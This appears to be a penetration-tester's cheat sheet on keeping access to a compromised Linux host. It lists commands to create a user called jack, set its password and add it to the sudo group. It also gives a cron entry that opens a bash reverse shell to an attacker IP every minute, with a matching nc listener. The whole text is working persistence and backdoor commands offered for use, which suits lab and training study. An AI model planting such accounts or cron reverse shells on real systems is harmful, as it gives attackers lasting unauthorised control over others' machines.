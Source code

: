 ### Persistence
#### User Accounts
`useradd jack`
- Adds the user jack to the target host
`passwd jack`
- Allows you to set the desired password for the newly created user
`usermod -a -G sudo jack`
- Adds the user jack to the sudo group on the box 

#### Cron Jobs
`cat /etc/crontab`
- Allows you to see the system wide cron jobs
`crontab -e` 
-Allows you to edit the file for your users cron jobs
`crontab -l` 
-Prints the cron jobs set for your user
#### Cron Reverse Shell
`* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/172.16.6.1/1234 0>&1`
- Creates a reverse shell that call back to your attack box ip every minute
`nc -nlvp 1234`
-Create the listener on your attack box to cat the incoming shell
